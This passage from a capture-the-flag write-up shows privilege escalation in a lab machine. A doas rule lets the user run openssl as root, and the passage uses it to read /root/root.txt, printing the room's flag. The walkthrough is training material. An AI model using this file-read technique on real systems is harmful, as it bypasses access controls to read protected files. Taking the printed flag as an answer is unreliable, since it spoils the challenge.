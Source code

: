 ```
     1238     51 -rwsr-xr--   1 root     systemd-resolve    51344 Jun 11  2020 /snap/core20/1169/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1610    463 -rwsr-xr-x   1 root     root              473576 Jul 23  2021 /snap/core20/1169/usr/lib/openssh/ssh-keysign
      133    121 -rwsr-xr-x   1 root     root              123464 Jan  7 01:11 /snap/snapd/14549/usr/lib/snapd/snap-confine
      133    113 -rwsr-xr-x   1 root     root              115208 Oct  5  2021 /snap/snapd/13640/usr/lib/snapd/snap-confine


  1049433     68 -rwsr-xr-x   1 root     root               68208 Jul 14  2021 /usr/bin/passwd
  1049659    164 -rwsr-xr-x   1 root     root              166056 Jan 19  2021 /usr/bin/sudo
  1049252     88 -rwsr-xr-x   1 root     root               88464 Jul 14  2021 /usr/bin/gpasswd
  1049386     56 -rwsr-xr-x   1 root     root               55528 Jul 21  2020 /usr/bin/mount
  1049658     68 -rwsr-xr-x   1 root     root               67816 Jul 21  2020 /usr/bin/su
  1049121     84 -rwsr-xr-x   1 root     root               85064 Jul 14  2021 /usr/bin/chfn
  1049234     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
  1049053     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
  1049127     52 -rwsr-xr-x   1 root     root               53040 Jul 14  2021 /usr/bin/chsh
  1049730     40 -rwsr-xr-x   1 root     root               39144 Jul 21  2020 /usr/bin/umount
  1067622     40 -rwsr-xr-x   1 root     root               39008 Feb  5  2021 /usr/bin/doas
  1049400     44 -rwsr-xr-x   1 root     root               44784 Jul 14  2021 /usr/bin/newgrp
  1051626     20 -rwsr-xr-x   1 root     root               19040 Jun  3  2021 /usr/libexec/polkit-agent-helper-1
.....
```
Very long long long list...... But this **doas** is not an usual item we cna find into SUID list
```
  1067622     40 -rwsr-xr-x   1 root     root               39008 Feb  5  2021 /usr/bin/doas
```
I performed a research to find all files related to **doas** and found this
```
find: ‘/proc/31086/task/31086/ns’: Permission denied
find: ‘/proc/31086/fd’: Permission denied
find: ‘/proc/31086/map_files’: Permission denied
find: ‘/proc/31086/fdinfo’: Permission denied
find: ‘/proc/31086/ns’: Permission denied
find: ‘/proc/31201’: No such file or directory
find: ‘/root’: Permission denied
/etc/doas.conf
```
Check the **doas.conf**
```
plot_admin@plotted:~$ cat /etc/doas.conf
cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl
```
Great information. We can run **openssl**. Let's check [GTFOBINS/openssl](https://gtfobins.github.io/gtfobins/openssl/#file-read)
```
plot_admin@plotted:~$ file=/root/root.txt
file=/root/root.txt
plot_admin@plotted:~$ echo $file
echo $file
/root/root.txt
plot_admin@plotted:~$ doas openssl enc -in "$file"
doas openssl enc -in "$file"
Congratulations on completing this room!

53f85e2da3e874426fa059040a9bdcab

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms.
```